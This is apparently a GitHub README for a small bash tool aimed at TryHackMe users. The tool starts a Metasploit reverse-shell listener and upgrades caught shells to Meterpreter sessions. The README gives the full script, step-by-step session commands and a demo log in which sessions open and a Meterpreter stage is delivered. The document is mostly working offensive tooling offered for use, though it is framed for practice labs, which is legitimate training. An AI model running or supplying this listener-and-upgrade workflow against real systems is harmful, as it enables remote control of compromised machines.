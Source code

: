 # akrech-rev-shell

░█████╗░██╗░░██╗░█████╗░███╗░░██╗░██████╗░███████╗  ██╗░░░██╗░█████╗░██╗░░░██╗██████╗░
██╔══██╗██║░░██║██╔══██╗████╗░██║██╔════╝░██╔════╝  ╚██╗░██╔╝██╔══██╗██║░░░██║██╔══██╗
██║░░╚═╝███████║███████║██╔██╗██║██║░░██╗░█████╗░░  ░╚████╔╝░██║░░██║██║░░░██║██████╔╝
██║░░██╗██╔══██║██╔══██║██║╚████║██║░░╚██╗██╔══╝░░  ░░╚██╔╝░░██║░░██║██║░░░██║██╔══██╗
╚█████╔╝██║░░██║██║░░██║██║░╚███║╚██████╔╝███████╗  ░░░██║░░░╚█████╔╝╚██████╔╝██║░░██║
░╚════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝░╚═════╝░╚══════╝  ░░░╚═╝░░░░╚════╝░░╚═════╝░╚═╝░░╚═╝

███╗░░██╗░█████╗░██████╗░███╗░░░███╗░█████╗░██╗░░░░░  ██████╗░███████╗██╗░░░██╗███████╗██████╗░░██████╗███████╗
████╗░██║██╔══██╗██╔══██╗████╗░████║██╔══██╗██║░░░░░  ██╔══██╗██╔════╝██║░░░██║██╔════╝██╔══██╗██╔════╝██╔════╝
██╔██╗██║██║░░██║██████╔╝██╔████╔██║███████║██║░░░░░  ██████╔╝█████╗░░╚██╗░██╔╝█████╗░░██████╔╝╚█████╗░█████╗░░
██║╚████║██║░░██║██╔══██╗██║╚██╔╝██║██╔══██║██║░░░░░  ██╔══██╗██╔══╝░░░╚████╔╝░██╔══╝░░██╔══██╗░╚═══██╗██╔══╝░░
██║░╚███║╚█████╔╝██║░░██║██║░╚═╝░██║██║░░██║███████╗  ██║░░██║███████╗░░╚██╔╝░░███████╗██║░░██║██████╔╝███████╗
╚═╝░░╚══╝░╚════╝░╚═╝░░╚═╝╚═╝░░░░░╚═╝╚═╝░░╚═╝╚══════╝  ╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═════╝░╚══════╝

░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░  ████████╗░█████╗░
██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░  ╚══██╔══╝██╔══██╗
╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░  ░░░██║░░░██║░░██║
░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░  ░░░██║░░░██║░░██║
██████╔╝██║░░██║███████╗███████╗███████╗  ░░░██║░░░╚█████╔╝
╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝  ░░░╚═╝░░░░╚════╝░

███╗░░░███╗███████╗████████╗███████╗██████╗░██████╗░██████╗░███████╗████████╗███████╗██████╗░
████╗░████║██╔════╝╚══██╔══╝██╔════╝██╔══██╗██╔══██╗██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗
██╔████╔██║█████╗░░░░░██║░░░█████╗░░██████╔╝██████╔╝██████╔╝█████╗░░░░░██║░░░█████╗░░██████╔╝
██║╚██╔╝██║██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗██╔═══╝░██╔══██╗██╔══╝░░░░░██║░░░██╔══╝░░██╔══██╗
██║░╚═╝░██║███████╗░░░██║░░░███████╗██║░░██║██║░░░░░██║░░██║███████╗░░░██║░░░███████╗██║░░██║
╚═╝░░░░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝╚═╝░░░░░╚═╝░░╚═╝╚══════╝░░░╚═╝░░░╚══════╝╚═╝░░╚═╝

░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░  ███████╗░█████╗░░██████╗██╗░░░██╗██╗░░░░░██╗░░░██╗
██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░  ██╔════╝██╔══██╗██╔════╝╚██╗░██╔╝██║░░░░░╚██╗░██╔╝
╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░  █████╗░░███████║╚█████╗░░╚████╔╝░██║░░░░░░╚████╔╝░
░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░  ██╔══╝░░██╔══██║░╚═══██╗░░╚██╔╝░░██║░░░░░░░╚██╔╝░░
██████╔╝██║░░██║███████╗███████╗███████╗  ███████╗██║░░██║██████╔╝░░░██║░░░███████╗░░░██║░░░
╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝  ╚══════╝╚═╝░░╚═╝╚═════╝░░░░╚═╝░░░╚══════╝░░░╚═╝░░░

please read carefully, if you havn't any idea about "how to upgrade a normal reverse-shell to a meterpreter shell"



It's the first tool that I had made with bash scripting.
a very simple but useful(maybe) tool for tryhackme users.

#PROCESS
git clone https://github.com/a-k-r-e-c-h/akrech-rev-shell
$ cd akrech-rev-shell
$ chmod +x akrech.sh
$ ./akrech.sh

#use "nano akrech.sh" if you want's to change the exploit or the IP/network interface.

<----after getting a shell successfully--->
ENTER(1) --- "background"
ENTER(2) --- "sessioions -u 1"     <---I used (1) for session 1...else use your sessions id...view it by enter"sessions">

#wait a while
#if everything works fine...then you are gonna get a meterpreter session...check it by ENTER "sessions"

ENTER(3) --- sessions -i 2        <---you should get a meterpreter shell successfully--->

<<<<<<<----------------------------------------------------------------------->>>>>>>
█▀▀▄ █▀▀ █▀▄▀█ █▀▀█ 
█░░█ █▀▀ █░▀░█ █░░█ 
▀▀▀░ ▀▀▀ ▀░░░▀ ▀▀▀▀


┌──(root💀kali)-[/home/kali/akrech-rev-shell]
└─# ./akrech.sh   
 


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝
 
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      
[*] Using configured payload generic/shell_reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.217.33:4444 
[*] Command shell session 1 opened (10.8.217.33:4444 -> 10.8.217.33:39094) at 2021-09-07 13:35:34 -0400

background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               10.8.217.33:4444 -> 10.8.217.33:39094 (10.8.217.33)

msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.217.33:4433 
[*] Sending stage (984904 bytes) to 10.8.217.33
[*] Meterpreter session 2 opened (10.8.217.33:4433 -> 10.8.217.33:41528) at 2021-09-07 13:36:12 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 



<<<<<<<------------------------------------------------------------------------->>>>>>

#akrech   ---a simple metasploit automated reverse-shell-listener tool written in bash.
#this tool is made for time saving & day-to-day usage.
#metasploit has must be installed to ran this script on your machine.
#found me on tweeter-- https://twitter.com/a_k_r_e_c_H
#download

#!/bin/bash

 
echo -e " \e[91m


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝"
echo -e " \e[5m
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      "

msfconsole -q -x " use ```exploit/multi/handler```;    <---change this, if you wants to set another exploit--->
  set lhost ```tun0``` ;                               <---change this, if you wants to set another IP/network interface---> 
   set lport ```4444``` ;                              <---change this, if you wants to listen on another port--->
    exploit ;"
